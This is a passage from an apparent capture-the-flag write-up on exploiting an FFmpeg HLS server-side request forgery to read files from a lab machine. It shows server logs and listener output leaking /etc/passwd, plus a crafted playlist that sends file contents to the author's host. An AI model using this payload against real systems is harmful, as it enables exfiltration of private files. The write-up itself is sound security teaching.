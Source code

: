     10.10.11.157 - - [28/Jul/2022 09:53:44] "GET /header.m3u8 HTTP/1.1" 200 -
    10.10.11.157 - - [28/Jul/2022 09:53:44] "GET ?daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin HTTP/1.1" 301 -



#### Script Fails

I spent too long trying to write a script that would take a file name,
fetch it, and print it correctly to the terminal (or allow for
redirecting to a file). I started using Python's `http.server`, but
eventually gave up on that and pivoted to Flask. I made a nice script
that worked great until I got a request with spaces in it:



    oxdf@hacky$ python read.py /etc/passwd
     * Serving Flask app 'read' (lazy loading)
     * Environment: production
       WARNING: This is a development server. Do not use it in a production deployment.
       Use a production WSGI server instead.
     * Debug mode: off
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    10.10.11.157 - - [28/Jul/2022 11:52:17] code 400, message Bad request syntax ('GET /x?list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin HTTP/1.1')



I couldn't find a nice way to handle that, and eventually moved on.

#### FFmpeg-HLS-SSRF

[This project](https://github.com/0xcoyote/FFmpeg-HLS-SSRF) will
download files using some of the same logic I was looking for on my own.
I'll edit `mal.avi` to contain the URL the project wants:



    #EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    #EXTINF:10.0,
    http://10.10.14.6/initial.m3u?filename=/etc/passwd
    #EXT-X-ENDLIST
